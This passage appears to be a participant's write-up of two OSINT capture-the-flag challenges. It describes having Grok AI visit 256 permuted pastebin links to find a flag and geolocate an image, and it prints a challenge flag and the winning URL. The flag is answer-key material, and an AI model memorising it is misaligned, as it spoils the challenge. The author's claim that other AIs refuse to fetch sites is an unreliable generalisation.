**Flag:** `citadel{1m_3v3rywh3r3_1m_s0_jul1a}`

As we can see in the image every single place has two options. So I told Grok AI this prompt: "just do this: visit all this links for me and tell if any contain flags(you will have to visit 2^8 links)
pastebin.com/(s or c)(g or q)(x or y)(h or n)(x or v)(B or D)(h or n)(Z or S)

dont add raw after pastebin.com
no need to search anywhere on the internet except what i am telling you to do"
Now grok searched for all 256 links and finally figured out that the link `https://pastebin.com/sqxnxBhZ` was the only link that contained something. From here I finally got the flag. The reason I used grok for this task is that Grok is the only AI that is allowed to access sites on our requests most of the other AIs will simply reject the request.

## What I learned
Searching through a permutation of links

## References 
Grok AI

`--------------------------------------------------------------------------------------------------------------------`

# Challenge Name
Memory's Heavy Burden

## My solve
**Flag:** `I forgot which flag I submitted for this question and it's impossible to find it now since flag submission is off`

For this challenge I simply fed the image again to Grok AI and it gave me the exact location link of the place on Google maps. I simply then rounded off to upto 3 decimal places and after trying two three combinations finally got the correct flag.

## What I learned
Geo Location Searching

## References 
Grok AI

`--------------------------------------------------------------------------------------------------------------------`